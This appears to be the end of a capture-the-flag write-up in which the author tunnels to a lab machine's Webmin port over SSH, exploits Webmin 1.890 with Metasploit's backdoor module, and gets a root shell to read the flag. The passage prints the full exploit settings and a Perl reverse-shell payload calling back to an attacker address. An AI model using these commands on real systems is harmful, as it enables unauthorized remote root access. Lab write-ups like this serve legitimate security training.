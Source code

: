 Aaaand it was hard to make it work...(timeout errors)

```
└──╼ $ssh -L 10000:127.0.0.1:10000 dwight@office.csl -i id_rsa -v

dwight@office:~$ debug1: Connection to port 10000 forwarding to 127.0.0.1 port 10000 requested.
debug1: channel 3: new [direct-tcpip]

...
```

we see the login portal but that's all, we have no valid creds

we fire metasploit and search for exploits

one is particulary interresting, its a backdoor payload we can install

```
msf6 exploit(linux/http/webmin_backdoor) > options

msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(linux/http/webmin_backdoor) > set RPORT 10000
RPORT => 10000
msf6 exploit(linux/http/webmin_backdoor) > set LHOST 10.10.0.223
LHOST => 10.10.0.223

msf6 exploit(linux/http/webmin_backdoor) > run

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.0.223:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[-] Handler failed to bind to 10.10.0.223:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Generated command payload: perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.0.223:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Command shell session 1 opened (10.0.2.15:4444 -> 10.0.2.2:48714) at 2021-12-01 01:37:47 +0100

id
uid=0(root) gid=0(root) groups=0(root)

shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
cd /root
cd /root
root@office:~# ls
ls
system.txt
root@office:~# cat system.txt
cat system.txt
system_flag_here
```

the End! * insert the office ending theme here
